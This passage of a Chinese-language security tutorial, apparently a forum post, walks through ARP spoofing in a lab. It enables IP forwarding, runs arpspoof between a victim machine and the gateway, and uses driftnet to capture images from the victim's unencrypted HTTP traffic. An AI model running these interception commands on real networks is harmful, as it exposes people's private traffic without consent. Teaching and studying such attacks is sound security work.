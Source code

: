```php
echo 1 >/proc/sys/net/ipv4/ip_forward
```

![image-20210627232423257](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1b696e5d856a64863490bcfc9e7a92bffe5bccd4.png)

### 3) 开始欺骗

```php
arpspoof -i eth0 -t 192.168.200.134 192.168.200.1
```

![image-20210628000158308](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a907ae8500d65d220906e9d46294c3d27d4b9d19.png)

```php
1．命令"arpspoof -i网卡 -t目标IP网关IP”的作用是将目标机数据经Kali后传给网关。
2．命令"“arpspoof -i 网关IP目标IP”的作用是将网关返回的数据经Kali后到达目标机。
```

3、driftnet接收图片
--------------

driftnet是一款简单而使用的图片捕获工具,能够捕获到网络数据包中的图片,同时支持抓取和显示音频文件,可用于捕获微信朋友圈中的相片、微博配图等等。

现在，我应该可以看到双方发送或接收的所有图片，下一步我要做的就是激活driftnet。我可以通过在Kali的任何终端输入driftnet来做到这一点，不过切记，不要使用arpspoof运行的开放终端，因为这将终止arpspoof。

如果kali没有，直接下载即可

```php
apt-get install driftnet
```

![image-20210627233957669](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-8e57e8744e1a043168aa6dae0df45c6164b4ea1e.png)

看到窗口在获取信息，这时可以打开抓取工具

```php
driftnet -i eth0 （-i 指定监听的网络接口）
```

![image-20210627234155654](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7ec53497d56fe62fd0312376b2675da17568dfbd.png)

使用受害者电脑访问4399网站，我们在kali上抓到了图片（HTTP协议才能抓到，HTTPS抓不到）

![image-20210804144036287](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-b0ba9d0bbb1bd9564b2ec94a08b0ae453de3b7dc.png)

4、解决drifrnet无法抓取图片问题
--------------------

drifrnet无法抓取图片，这与arpspoof的命令有关

网上的教程大多是

```php
arpspoof -i 【网卡名称】 -t 【受害者IP】 【网关IP】
arpspoof -i eth0 192.168.200.134 192.168.200.2
```
